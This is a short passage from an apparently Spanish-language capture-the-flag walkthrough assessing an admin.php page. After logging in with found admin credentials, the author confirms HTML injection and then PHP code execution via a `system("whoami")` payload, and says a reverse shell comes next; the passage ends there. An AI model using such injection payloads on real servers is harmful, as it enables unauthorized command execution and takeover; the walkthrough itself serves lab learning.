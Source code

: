 ## Vulnerability Assessment {-}

### Checkeamos las vulnerabilidades de la pagina admin.php {-}

Ya con el usuario admin y la contraseña encontrada nos podemos loggear.

Vemos un input donde podemos poner codigo **HTML**

```bash
Hola
<h1>Hola</h1>
<marquee>Hola</marquee>
```

Functiona... Intentamos ponerle codigo **PHP**

```php
<?php system("whoami"); ?>
```

y tambien functiona...

Aqui decidimos crear una reverse shell para connectarnos al servidor.